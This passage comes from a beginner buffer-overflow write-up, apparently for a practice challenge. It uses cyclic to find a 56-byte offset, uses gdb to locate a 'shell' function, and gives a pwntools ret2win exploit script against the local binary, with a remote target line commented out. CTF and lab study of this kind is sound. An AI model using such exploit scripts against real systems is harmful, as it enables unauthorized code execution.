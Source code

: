 With this i'll use the first four byte in the `rsp` register and search it using cyclic to get the offset 

```
┌──(venv)─(mark㉿haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ cyclic -l oaaa
56
```

We see its the same thing `0x38 = 56`

Now lets craft the exploit using pwntools

But before that we need the memory address we want to return to which is of cause the the shell function

I'll use gdb to get it

```
└─$ gdb -q chall
GEF for linux ready, type `gef' to start, `gef config' to configure
90 commands loaded and 5 functions added for GDB 12.1 in 0.01ms using Python engine 3.11
Reading symbols from chall...
(No debugging symbols found in chall)
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401080  puts@plt
0x0000000000401090  printf@plt
0x00000000004010a0  execve@plt
0x00000000004010b0  gets@plt
0x00000000004010c0  setvbuf@plt
0x00000000004010d0  _start
0x0000000000401100  _dl_relocate_static_pie
0x0000000000401110  deregister_tm_clones
0x0000000000401140  register_tm_clones
0x0000000000401180  __do_global_dtors_aux
0x00000000004011b0  frame_dummy
0x00000000004011b6  setup
0x00000000004011fd  shell
0x0000000000401221  hax
0x0000000000401255  main
0x000000000040128c  _fini
gef➤ 
```

Now we have it as `0x00000000004011fd`

Lets get on with the exploit

Here's the script below

```
#Imports all pwntool library
from pwn import *

#Starts the binary 
io = process('./chall')
#io = remote('13.127.20.4', 1234)

#Creates the offset and the address we want to return to 
offset = b"A"*56
add = p64(0x00000000004011fd)
payload = offset + add

#Send the payload
io.send(payload)
```